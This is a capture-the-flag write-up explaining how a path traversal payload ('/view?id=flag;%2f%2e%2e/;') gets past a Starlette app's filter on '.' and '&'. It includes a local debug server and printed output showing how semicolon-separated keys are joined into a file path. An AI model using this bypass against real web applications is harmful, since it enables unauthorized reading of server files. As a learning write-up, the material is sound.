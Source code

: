 The flag for this question is in `./memo/flag`, so all we need to do is find a way to read the flag from the path in the above code.

My teammate used this payload: `/view?id=flag;%2f%2e%2e/;`. Since I'm not familiar with Python, I set up a simple server to observe:

``` python
from urllib.parse import unquote
import uvicorn
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import JSONResponse

def view(request):

    try:
        clientId = "id"
        print("request.url:", request.url)
        print("request.url.query", request.url.query)
        print("params:", request.query_params)
        print("unquote params:", unquote(request.query_params[clientId]))
        if '&' in request.url.query or '.' in request.url.query or '.' in unquote(request.query_params[clientId]):
            raise
        
        filename = request.query_params[clientId]
        print("filename:", filename)
        print("keys:", request.query_params.keys())
        path = './memo/' + "".join(request.query_params.keys()) + '/' + filename
        print("path:", path)
    
    except:
        pass
    
    return JSONResponse({"a":1})

routes = [
    Route('/view', endpoint=view)
]

app = Starlette(debug=True, routes=routes)

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=11000)
```

Let's take a look at what my teammate's payload does: `/view?id=flag;%2f%2e%2e/;`

```
request.url: http://0.0.0.0:11000/view?id=flag;%2f%2e%2e/;
request.url.query id=flag;%2f%2e%2e/;
params: id=flag&%2F..%2F=
unquote params: flag
filename: flag
keys: dict_keys(['id', '/../'])
path: ./memo/id/..//flag
```

